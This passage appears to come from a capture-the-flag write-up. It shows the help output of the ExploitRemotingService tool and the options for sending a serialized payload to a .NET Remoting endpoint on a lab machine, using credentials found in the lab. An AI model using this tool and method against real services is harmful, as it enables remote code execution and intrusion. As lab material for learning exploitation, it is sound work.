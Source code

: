 We can now run the exploit to get the usage-information.

```powershell
PS> .\ExploitRemotingService.exe
Must specify a URI and command
ExploitRemotingService [options] uri command [command args]
Copyright (c) James Forshaw 2014

Uri:
The supported URI are as follows:
tcp://host:port/ObjName   - TCP connection on host and portname
ipc://channel/ObjName     - Named pipe channel

Options:

  -s, --secure               Enable secure mode
  -p, --port=VALUE           Specify the local TCP port to listen on
  -i, --ipc=VALUE            Specify listening pipe name for IPC channel
      --user=VALUE           Specify username for secure mode
      --pass=VALUE           Specify password for secure mode
      --ver=VALUE            Specify version number for remote, 2 or 4
      --usecom               Use DCOM backchannel instead of .NET remoting
      --remname=VALUE        Specify the remote object name to register
  -v, --verbose              Enable verbose debug output
      --useser               Uses old serialization tricks, only works on
                               full type filter services
      --uselease             Uses new serialization tricks by abusing lease
                               mechanism.
      --nulluri              Dont send the URI header to the server
      --autodir              When useser is specified try and automatically
                               work out the installdir parameter from the
                               servers current directory.
      --installdir=VALUE     Specify the install directory of the service
                               executable to enable full support with useser
      --path=VALUE           Specify an output path to write the request data
                               rather than to a channel.
  -h, -?, --help

Commands:
exec [-wait] program [cmdline]: Execute a process on the hosting server
cmd  cmdline                  : Execute a command line process and display stdout
put  localfile remotefile     : Upload a file to the hosting server
get  remotefile localfile     : Download a file from the hosting server
ls   remotedir                : List a remote directory
run  file [args]              : Upload and execute an assembly, calls entry point
user                          : Print the current username
ver                           : Print the OS version
raw base64_object|file        : Send a raw serialized object to the service.
```

In order to send our payload we have to specify following options:

- Connection URI (`tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint`)
- Secure Mode (`-s`)
- User (`--user=debug`)
- Password (`--pass="SharpApplicationDebugUserPassword123!"`)
- Command (`raw`) ... Send raw serialized object to the service
- Payload (`<BASE64-ENCODED PAYLOAD>`)

